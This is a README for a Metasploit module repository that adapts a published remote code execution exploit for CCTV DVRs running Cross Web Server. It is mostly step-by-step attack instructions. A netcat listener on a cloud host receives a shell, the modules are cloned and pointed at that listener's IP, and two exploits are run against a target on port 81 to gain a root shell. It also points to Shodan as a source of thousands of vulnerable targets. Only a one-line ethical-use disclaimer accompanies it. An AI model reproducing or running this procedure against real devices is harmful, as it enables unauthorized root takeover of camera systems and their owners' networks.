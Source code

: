 # CCTV-Remote-Code-Execution-Metasploit-Module
# CCTV-Remote-Code-Execution-Metasploit-Module

This code is adapted from the genius Rotem Kerner's python exploit into 2 metasploit modules to allow for easy pen testing of systems that utilise CCTV DVR's. If you go onto shodan.io and type in Cross Web Server, there are thousands of vulnerable web hosts, many of them presumably already exploited. This exploit should only be used for ethical, legal and authorised penetration tests.

http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html

Instructions for Use:

Set up a cloud host or web facing IP.

Step 1:

On this cloud host type

nc -l 666

On another host 

Step 1:

cd /usr/share/metasploit-framework/modules/exploits/linux/http

Step 2:

git clone https://github.com/freddiebarrsmith/CCTV-Remote-Code-Execution-Metasploit-Module.git


Step 3:

bash ipswitcher 1337.1337.1337.1337

(substitute 1337 etc. for the IP of your cloud-facing host)

Step 4:

type msfconsole

Step 5:

use exploit/linux/http/CCTV_DVRwrite
set RHOST yourtargethost.com
set RPORT 81
exploit

(then wait for it to execute, ignore errors for the most part)
Step 6:

use exploit/linux/http/CCTV_DVRrun
set RHOST yourtargethost.com
set RPORT 81
exploit

(then wait for it to execute, ignore errors for the most part)

Step 7:

go back to your cloud or web-facing ip netcat session and type in:

whoami

to get the answer 

root

if the exploit executed succesfully
